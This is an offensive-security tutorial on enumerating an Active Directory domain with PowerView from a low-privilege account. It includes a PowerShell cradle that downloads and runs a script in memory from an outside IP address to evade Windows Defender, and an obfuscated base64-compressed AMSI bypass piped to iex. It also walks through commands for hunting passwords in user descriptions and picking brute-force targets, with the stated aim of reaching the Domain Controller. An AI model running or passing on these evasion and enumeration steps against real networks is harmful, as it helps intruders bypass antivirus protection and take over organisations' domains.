Introduction
In this article, we will explain how to perform information gathering against an Active Directory domain. Before we begin with the enumeration step, let us first take a look at what Active Directory actually is.
Imagine you have a company with 50 employees, each with their own computer, along with multiple databases. How would you manage all of these massive resources? This is where the Active Directory service comes in.
Active Directory Components
The key components of Active Directory are:
- Forest, Domain Trees, Domains
- Computers, Users & Groups
- Trusts
- Group Policy
- Access Control Lists (ACLs)
There are many more components, but these are the most important ones you need to understand. Let me clarify some of these in more detail.
Domains, Domain Trees, and Forests
A Forest contains Domain Trees, and each Domain Tree contains Domains. They form a hierarchical structure where the Forest is the top-level container.

Trusts
In an Active Directory environment, a trust is a relationship between two domains or two forests. The purpose of trusts is to allow each domain or forest to access the resources of the other. Trusts are automatically established between domains within the same Domain Tree.
There are two types of trusts:
-
One-way Trusts -- In this type, the first domain can access the resources of the second domain, but the second domain cannot access the resources of the first domain.
-
Two-way Trusts -- In this type, both domains can access each other's resources.

Access Control Lists (ACLs)
In short, ACLs are lists that define the permissions for each group or each user -- specifying what they are allowed to do on the system.
Enumeration with PowerView
In this article, we will use the PowerView tool to gather information about the domain we are currently on, operating with limited privileges.
The purpose of gathering this information is to build a clear map that leads us to the Domain Controller.
Tool link:

Loading PowerView into Memory
The tool is written in PowerShell, so we will not download the file directly to our machine because Windows Defender would delete it, and we do not have the privileges to disable Windows Defender.
Instead, we will open PowerShell and execute the following command. The idea behind this command is that it loads the file directly into memory without writing it to disk:
iex(New-Object Net.WebClient).DownloadString('http://172.16.99.7:9090/PowerView.ps1')

Bypassing AMSI
Before executing that command, something will block us: AMSI. What is AMSI? You can think of it as an antivirus specifically designed to monitor memory -- it checks whether there is malicious code loaded in memory or not.
We will bypass AMSI using the following encoded and obfuscated PowerShell code:
(neW-oBJeCt iO.COMpRESsiOn.DeflAteSTrEAm([io.MemoryStREAM][coNveRT]::FrOmBAsE64StRINg( 'pZJRT9swEMff/SlOVqQmIqsyOjZENQnKpAkJWEUZe4jy4CaX1ZoTW7YzGqZ9dy5uBoWHvZAH53y+/8/3tx39kO3sED7DKWesc7L9CaveeWzmL2bTm671ssHpRevRarNC+1uW6OaMmW6tZAmlEs7BjvaHMaAv/6LURWO09TH/hbZFNTvkSRHWRpXzwtMPt0RtgeBLb+Er+qXV5VlVWXQuHrObK111ClPS2KExQyXXosFk/rbdLrWoLuXaCtvHI7p9C3attYI7aX0nFNnwWPp/FpQZPaXwfUxV9yv5QKY62Xqo1TXej5oUdOd3aWVq9U1V48LQ2F/GTxkj2Lvb3iBE4dgZi/a80JXmIV2cnOxb5KLhcADcyWmlFE9YNPa0L3h1A/vcFPhZ42RgrErRhmDR1TXaAWYIk7En0KtziJ7854MzKjlKIdt+yChhsS4iQ4il8OVm6GbRe8yLAuJsuzge6o4+DWOWhTHExyE+n5GM7u49qSb5/1/s9EpYtxGKmpsE0fD4J+fa9PFuZwKm8Nzox2TCJG7jHf8AgiRhjw==' ) , [SySteM.io.comPREssioN.CoMPReSSIONMOde]::DEcompreSS)| % { neW-oBJeCt io.sTreAMreaDER( $_ ,[TexT.eNcoDInG]::asCii)}).readtOeNd() |iEX
With that, we have successfully loaded the PowerView file into memory without any issues.
Domain Enumeration Commands
Now we will start gathering information about the domain -- the domain name, the users present, the computers, the groups, the group members, and so on.

Getting the Domain Name and Domain Controller
We can identify the domain name and the Domain Controller by running this command:
Get-NetDomain

Enumerating Users
This command lists all users on the domain:
Get-NetUser
To extract information about a specific user:
Get-NetUser -Username ciadmin
We can see that we extracted the information for the user named ciadmin. But what can we actually gain from this?
There are several useful fields. For example, logoncount -- we notice its value is 137, which means this person has logged into their account 137 times. This tells us the account is likely not dormant, meaning we could attempt a Brute Force attack against it.
Another useful field is pwdlastset, which tells us when the user last changed their password. If it was a long time ago, it is possible the password is easy to guess.
Searching User Descriptions for Credentials
This command searches for a specific keyword in the description field of all users:
Find-UserField -SearchField Description -SearchTerm "built"
Some users may put their password in their account description, thinking nobody can read it. You can replace the word "built" with "password" to search for credentials hidden in user descriptions.

Enumerating Domain Computers
This command displays all computers joined to the domain:
Get-NetComputer
You can add an option to the previous command to extract more detailed information about the domain-joined computers:
Get-NetComputer -FullData

Enumerating Domain Groups
This command lists all groups associated with the domain:
Get-NetGroup

Listing Members of a Specific Group
This command lists the members of a specific group:
Get-NetGroupMember -GroupName "Domain Admins"
We can see that the users svcadmin and Administrator are members of the Domain Admins group.

Finding Group Membership for a User
This command shows which groups a specific user belongs to:
Get-NetGroup -UserName "svcadmin"
Conclusion
By following these enumeration steps, we can build a comprehensive map of the Active Directory environment -- identifying domain controllers, users, computers, groups, and trust relationships -- all from a low-privilege foothold. This information is critical for planning the next stages of an attack and finding a path to the Domain Controller.
